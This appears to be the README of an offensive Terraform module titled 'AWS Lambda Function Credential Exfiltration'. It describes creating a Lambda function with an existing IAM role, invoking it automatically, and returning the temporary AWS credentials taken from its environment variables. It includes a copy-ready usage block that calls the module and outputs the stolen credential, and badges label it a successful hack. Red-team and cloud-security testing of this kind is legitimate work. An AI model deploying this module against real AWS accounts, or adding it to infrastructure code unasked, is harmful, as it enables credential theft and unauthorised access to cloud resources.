 # AWS Lambda Function Credential Exfiltration

![OffensiveTerraform](https://img.shields.io/badge/hack-success)
![OffensiveTerraform](https://img.shields.io/badge/offensive-terraform-blueviolet)
![OffensiveTerraform](https://img.shields.io/badge/aws-important)

Offensive Terraform module which creates Lambda function with existing IAM role. The module invokes it automatically to exfiltrate AWS temporary credential from environment variables and send it back with response.

![Attack Diagram](https://raw.githubusercontent.com/offensive-terraform/terraform-aws-lambda-function-credential-exfiltration/master/diagram.jpg)

## Usage
```
module "lambda-function-credential-exfiltration" {
    source  = "offensive-terraform/lambda-function-credential-exfiltration/aws"

    role_arn = "arn:aws:iam::000000000000:role/lambda-role-name"
}

output "lambda_credential" {
  value = module.lambda-function-credential-exfiltration.lambda_credential
}
```
## Author
Module managed by https://github.com/iganbold
